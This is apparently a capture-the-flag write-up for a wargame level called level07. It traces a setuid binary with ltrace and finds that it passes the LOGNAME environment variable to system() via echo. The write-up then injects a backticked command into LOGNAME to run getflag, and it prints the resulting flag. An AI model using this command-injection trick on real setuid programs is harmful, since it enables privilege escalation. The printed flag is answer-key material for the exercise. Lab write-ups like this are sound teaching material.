 1. We are given `level07` binary executable, output when launched: "level07"
2. Check the inner system calls
```
$ ltrace ./level07
__libc_start_main(0x8048514, 1, 0xbffff6e4, 0x80485b0, 0x8048620 <unfinished ...>
getegid()                                                = 2007
geteuid()                                                = 2007
setresgid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)      = 0
setresuid(2007, 2007, 2007, 0xb7e5ee55, 0xb7fed280)      = 0
getenv("LOGNAME")                                        = "level07"
asprintf(0xbffff634, 0x8048688, 0xbfffff3a, 0xb7e5ee55, 0xb7fed280) = 18
system("/bin/echo level07 "level07
 <unfinished ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                   = 0
+++ exited (status 0) +++
```
3. Environmental variable `LOGNAME` contains "level07" text, and `echo` prints it on screen. Therefore if swap containing of `LOGNAME` with shell command in backticks, it will be executed by echo
``` Bash
export LOGNAME=\`getflag\`
```
4. Launching `./level07` results to flag for level08: **fiumuikeil55xe9cu4dood66h**
